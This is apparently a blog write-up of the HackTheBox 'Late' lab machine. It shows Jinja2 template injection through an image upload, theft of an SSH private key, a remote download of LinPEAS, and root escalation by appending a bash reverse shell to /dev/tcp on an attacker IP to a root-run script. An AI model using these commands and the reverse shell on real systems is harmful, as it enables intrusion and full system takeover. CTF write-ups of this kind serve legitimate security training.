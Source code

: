 ```yaml
---
layout: post
title: HackTheBox - Late
categories: [CTF, HackTheBox]
date: 2022-07-06 11:15 +0300
image:
  path: /assets/hackthebox/late/Late.png
---
```


## Configuration

If you're using your own machine like me, you have to access HTB network via `OpenVPN`:

```zsh
sudo openvpn lab_access_file.ovpn
```

It is very useful to append `/etc/hosts/` with ip address of the machine. It is useful to get subdomains and to not memorize the address every time.

```zsh
echo '10.10.11.156  late.htb' | sudo tee -a /etc/hosts
```

## Reconnaissance

### nmap scan

```zsh
nmap -sCV -oN nmap_scan late.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We see basic `ssh` and `http` here, let's explore the web application.

### Web application

![Web application](/assets/hackthebox/late/webapp.png)

In web apps, we can use `whatweb` tool to look which technologies are used in app.
```zsh
whatweb late.htb
```

```
http://late.htb [200 OK] Bootstrap[3.0.0], Country[RESERVED][ZZ], Email[#,support@late.htb], Google-API[ajax/libs/jquery/1.10.2/jquery.min.js], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.11.156], JQuery[1.10.2], Meta-Author[Sergey Pozhilov (GetTemplate.com)], Script, Title[Late - Best online image tools], nginx[1.14.0]
```

We have a basic home page and a contact page with nothing interesting. Also, on home page we have a link to `images.late.htb`, lets modify our `/etc/hosts` with that address to look at it:

> 10.10.11.156  late.htb images.late.htb

Now we navigate to images.late.htb:

![Web application subdomain](/assets/hackthebox/late/subdomain.png)

It is an image to text converter, we can see an `upload form` here, let's check how it works. It allows only `png` or `jpg` file formats. Generate some text converted into image, I used [this site](https://www.345tool.com/converter/text-to-image-converter) here. Then, upload the image and it will return result in a txt file.

![Flask app results](/assets/hackthebox/late/flask_app_results.png)

## user.txt

### Enumeration

Note that it is a `Flask` application, it means `Python` is used here. I've found that Flask uses `Jinja2`, which allows us to try python code injections. Let's try basic injection by putting `{% raw %}{{7*'7'}}{% endraw %}` into image.

![Code injection](/assets/hackthebox/late/code_injection.png)

It works! Now we have to test and prepare our payload... 

### Exploit

After 2 hours I found right font and font size, I think it's not worth for time I spent, seriously... Use Verdana font with size 24, it worked for me. At first, we try to read `/etc/passwd`.

![etc passwd](/assets/hackthebox/late/etc_passwd.png)

We can see an interesting line here:

```
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
```

Some user has a home directory and can log in. We can try to find `ssh` private key.

![We got a private key](/assets/hackthebox/late/private_key.png)

We're lucky! Now we copy key to file and log in! Don't forget to change file permissions.

```zsh
chmod 600 id_rsa
ssh -i id_rsa svc_acc@late.htb
cat user.txt
```

## root.txt

### Explore for privilige escalation

Let's upload [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and try to get possible privilege escalation vectors. On our machine we use `Python` to start a simple web server.

```zsh
python -m http.server 8000
```

On victim machine we use `wget` to download the script. Then, we change permissions to a file to make it executable and run it.

```bash
wget http://10.10.16.14:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![Possible privesc vector](/assets/hackthebox/late/priv_esc_vector.png)

LinPEAS has found an interesting file for us, let's read it and understand what it does.

```bash
cat /usr/local/sbin/ssh-alert.sh
```

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

We can see that the script runs every time when a ssh connection is established. The file is not writtable, but if we list attributes of it, we will see that we can `append` to the file.

```bash
lsattr ssh-alert.sh
```

```
-----a--------e--- ssh-alert.sh
```

We have to check who runs the script. When we just connected via ssh, we listed the home directory and saw an executable called `pspy`, this is a tool for `monitor` processes without root privileges. Execute the tool and open another terminal, then connect again via ssh, you will see the events.

![Monitor processes](/assets/hackthebox/late/monitor_processes.png)

We can see that ssh-alert.sh runs with `UID 0`, which means that file executes by root, luckly for us! 

### Privilege escalation

Now we know that the file is executed by root, so we can do a lot of things, for example, get a reverse shell. Let's append a simple bash reverse shell from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp). Note that we can't directly write in the file. Then we check if everything is good.

```bash
echo '/bin/bash -i >& /dev/tcp/10.10.16.14/6185 0>&1' >> /usr/local/sbin/ssh-alert.sh 
cat /usr/local/ssh-alert.sh
```

Open an another terminal to set up a listener:

```zsh
nc -lnvp 6185
```

Finally, connect via ssh to trigger the script.

```zsh
ssh -i id_rsa svc_acc@late.htb
```

Then, on our listener terminal we will get the connection from `root`! We got it!

![We got a root](/assets/hackthebox/late/root.png)

## Conclusion

It was a very interesting box, but searching for a font and a font size was terrible, really. It was cool to learn about Flask and pspy.

Thank you for reading, I hope it was useful for you ❤️

